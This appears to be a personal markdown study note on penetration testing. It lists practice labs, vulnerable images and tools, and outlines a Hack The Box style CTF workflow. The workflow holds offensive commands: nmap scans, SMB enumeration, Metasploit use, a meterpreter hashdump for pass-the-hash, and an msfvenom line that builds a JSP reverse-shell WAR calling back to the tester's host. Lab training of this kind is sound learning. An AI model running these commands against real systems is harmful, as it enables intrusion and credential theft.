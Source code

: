 # training labs
- https://Hackthis.co.uk
- https://www.hackthebox.eu/
- https://www.hackerone.com/start-hacking
- https://www.virtualhackinglabs.com/labs/penetration-testing-lab/
- https://www.hackthissite.org/
- https://cryptopals.com/
- http://opensecuritytraining.info/HTID.html

# images/apps
- http://www.dvwa.co.uk/
- https://Vulnhub.com
  - was walkthroughs and write ups
- https://information.rapid7.com/download-metasploitable-2017.html

# games
- https://ctftime.org/

# Phases
1. Recon
2. Scanning 
3. Gaining access
4. Maintaining access
5. Clearing tracks

# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access

# top tools
- Metasploit
- the Nessus Vulnerability Scanner
- Nmap
- Burp Suite    # web
- OWASP ZAP     # web
- SQLmap
- Kali Linux
- Jawfish

## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip
      1. 8080/tcp                # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. $info = **smb weakness**    # 139/tcp ntbios-ssnn
      1. google search $info exploit 
         1. exploit-db.com
         2. rapid7.com
3. `Gaining access`
   1. smbclient -L \\\\$ip\\      # found smb service
      1. try to crawl folders
   2. msfconsole                  # Rapid7 Metasploit
      1. search $smb_version      # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. options
      5. show
      6. set $var $value
      7. exploit or run
   3. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. hashdump # get the SAM, pass the hash around
      5. find user.txt, or root.txt and submit to hackthebox.eu
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
5. `Clearing tracks`
6. Capture the flag (CTF)
   1. tag web with contents of user.txt
